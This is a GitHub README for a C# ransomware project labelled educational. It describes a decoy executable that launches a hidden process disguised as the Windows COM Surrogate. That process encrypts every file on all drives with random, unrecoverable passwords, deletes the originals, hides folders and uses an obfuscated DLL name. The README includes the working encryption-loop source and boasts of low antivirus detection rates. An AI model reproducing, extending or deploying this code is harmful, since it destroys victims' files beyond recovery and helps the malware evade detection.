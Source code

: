 # Ransomware

Ransomware is a project written in C# 4.8 and shows how ransomeware generally works. This repository should be used for educational reasons only!!

[![Build status](https://ci.appveyor.com/api/projects/status/m435h8vg3m6uwdv2?svg=true)](https://ci.appveyor.com/project/SeppPenner/ransomware)
[![GitHub issues](https://img.shields.io/github/issues/SeppPenner/Ransomware.svg)](https://github.com/SeppPenner/Ransomware/issues)
[![GitHub forks](https://img.shields.io/github/forks/SeppPenner/Ransomware.svg)](https://github.com/SeppPenner/Ransomware/network)
[![GitHub stars](https://img.shields.io/github/stars/SeppPenner/Ransomware.svg)](https://github.com/SeppPenner/Ransomware/stargazers)
[![GitHub license](https://img.shields.io/badge/license-AGPL-blue.svg)](https://raw.githubusercontent.com/SeppPenner/Ransomware/master/License.txt)
[![Known Vulnerabilities](https://snyk.io/test/github/SeppPenner/Ransomware/badge.svg)](https://snyk.io/test/github/SeppPenner/Ransomware)

## Folders
The [Setup](https://github.com/SeppPenner/Ransomware/blob/master/Setup) folder contains a [Inno Setup](http://www.jrsoftware.org/isinfo.php) script and the installer.

The [BeforeSetup](https://github.com/SeppPenner/Ransomware/blob/master/BeforeSetup) folder contains the files the setup installs.

The [Projects](https://github.com/SeppPenner/Ransomware/blob/master/Projects) folder contains the C# source code.

## The stuff behind
The **LustigeFehler.exe** file is the main exe. It will start and show some nonsense error messages.

If it's not run in admin mode, it will crash with an error. If the .exe is started in admin mode, it will start up a new hidden (can't be seen in the taskbar or as GUI) process called
[COM Surrogate](https://github.com/SeppPenner/Ransomware/blob/master/Projects/COM%20Surrogate) in the background.

Why **COM Surrogate**? - Because noone will ever expect a [standard Windows process](https://www.howtogeek.com/326462/what-is-com-surrogate-dllhost.exe-and-why-is-it-running-on-my-pc/) is running as a virus.
In the background, the our **Fake COM Surrogate.exe** will run and try to encrypt all files on all drives it finds.

Additionally, it will **hide** all folders it finds. Furthermore, the AES crypto library is obfuscated to the name **msvpc.dll** to avoid that suspicious users (who take a look into the install folder) get more suspicious.

How is this possible? - The following lines of code taken from [Main.cs](https://github.com/SeppPenner/Ransomware/blob/master/Projects/COM%20Surrogate/COM%20Surrogate/Main.cs) show the main **ransomware** code.
```csharp
private string GetRandomPassword()
{
   var alg = SHA512.Create();
   alg.ComputeHash(Encoding.UTF8.GetBytes(DateTime.Now.ToLongDateString() + _random.Next(int.MaxValue)));
   return BitConverter.ToString(alg.Hash);
}

private void Run()
{
   foreach (var drive in DriveInfo.GetDrives())
   {
      try
      {
         EncryptFs(drive.Name);
      }
      catch
      {
         // ignored
      }
   }
}

private void EncryptFs(string directory)
{
   foreach (var file in Directory.GetFiles(directory))
   {
      try
      {
         if (file == null) continue;
         Msvpc.UseE(GetRandomPassword(), file,
            Path.Combine(directory, Path.GetFileNameWithoutExtension(file)) + Resources.Ending);
         File.Delete(file);
      }
      catch
      {
         // ignored
      }
   }

   foreach (var dir in Directory.GetDirectories(directory))
   {
      HideDirectory(dir);
      EncryptFs(dir);
   }
}

private void HideDirectory(string dir)
{
   var di = new DirectoryInfo(dir);
   if ((di.Attributes & FileAttributes.Hidden) != FileAttributes.Hidden)
   {
      di.Attributes |= FileAttributes.Hidden;
   }
}

private bool IsElevated()
{
   var id = WindowsIdentity.GetCurrent();
   return id.Owner != id.User;
}
```

## Virustotal.com scans
Well, let's see what [virustotal.com](https://www.virustotal.com) shows us as information on this "virus":

* The dllhost.exe: https://www.virustotal.com/#/file/ff946d2667b9a51b477d3abcdb12177b732c27901e199731cfe21f9430fba568/detection -->  9 / 57 detections --> Very poor :D
* The LustigeFehler.exe: https://www.virustotal.com/#/file/18436c0625daad52a141eeb9f4d4cbfd94e54264fa949ec9597c84c4ad0b39bb/detection --> 0 / 57 detections, which is ok. It's clean.
* The LustigeFehler-Setup.exe: https://www.virustotal.com/#/file/31f5447fa6c498ab526f1686cb77778f41223d6783ccba4298f9580ce8dfa055/detection --> 11 / 58 detections --> Very poor :D

## Hint
Please don't try this software on your PC. It's for educational purposes only!!!!!!

Change history
--------------

* **Version 1.0.1.0 (2019-10-27)** : Updated nuget packages, added GitVersionTask.
* **Version 1.0.0.1 (2019-05-07)** : Updated .Net version to 4.8.
* **Version 1.0.0.0 (2018-01-08)** : 1.0 release.

